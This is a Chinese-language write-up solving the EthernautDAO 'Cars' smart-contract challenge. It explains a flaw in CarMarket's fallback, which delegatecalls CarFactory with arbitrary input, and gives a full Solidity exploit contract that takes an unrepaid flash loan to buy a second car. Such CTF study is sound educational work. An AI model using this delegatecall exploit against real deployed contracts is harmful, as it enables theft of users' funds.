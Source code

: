 ## 合约

Twitter Link:https://twitter.com/EthernautDAO/status/1548638648974749696

- [CarToken.sol](https://github.com/Poor4ever/EthernautDAO-Twitter-Solution/blob/main/src/Cars/CarToken.sol) 
- [CarMarket.sol](https://github.com/Poor4ever/EthernautDAO-Twitter-Solution/blob/main/src/Cars/CarMarket.sol) 
- [CarFactory.sol](https://github.com/Poor4ever/EthernautDAO-Twitter-Solution/blob/main/src/Cars/CarFactory.sol) 

## 完成题目条件

需要从 CarMarket 合约购买两辆车.

## 解题

初始你没有任何 CarToken,只能通过 mint() 函数获取 1 个token, CarMarket 和 CarFactory 合约各有 100000 Token

`CarToken` 是一个 ERC20 Token 合约,用于从 CarMarket 购买车辆,挑战者只能通过 mint() 函数获得1 个Token.

`CarMarket` 通过 purchaseCar() 函数购买车辆, _carCost() 判断如果是第一次购买只需要 1个 Token,不是第一购买需要支付 100000 个 Token,CarFactory 合约给购买过车辆的用户提供免费的闪电贷.

```solidity
    fallback() external {
       carMarket = ICarMarket(address(this));
       carToken.approve(carFactory, carToken.balanceOf(address(this)));
       (bool success, ) = carFactory.delegatecall(msg.data);
       require(success, "Delegate call failed");
    }
```

问题出在 `CarFactory` 的回退函数委托调用我们是可以任意输入的,如果通过它去委托调用 `CarFactory` 的 flashLoan() 函数,执行的上下文是在 `CarMarket` 合约,收到的是 `CarMarket` 合约 transfer()的 CarToken ,回调 receivedCarToken() 后,判断的是 `CarFactory` 合约CarToken 余额没变化,即我们可以不用偿还,完成这次闪电贷从 `CarMarket` 购买第二辆车.

编写 Exp 测试完成挑战

forge test -vvv

[Car.t.sol](https://github.com/Poor4ever/EthernautDAO-Twitter-Solution/blob/main/src/test/Car.t.sol) 

```solidity
contract Exploit {
    CarToken token;
    CarFactory factory;
    CarMarket market;

    constructor(CarToken _tokenAddr, CarFactory _factoryAddr, CarMarket _marketAddr) {
        token = _tokenAddr;
        factory = _factoryAddr;
        market = _marketAddr;
    }
    
    function start() public {
        bytes memory flashLoan_func_sign = abi.encodeWithSelector(factory.flashLoan.selector, 100_000 ether, address(this));

        token.mint();
        token.approve(address(market), type(uint256).max);
        market.purchaseCar("TESLA", "Black", "TEST123");
        address(market).call(flashLoan_func_sign);
        market.purchaseCar("DMC-12", "Silver", "OUTATIME");
    }
    
    function receivedCarToken(address _factoryAddr) public returns(bool) {
        return true;
    }

}
```
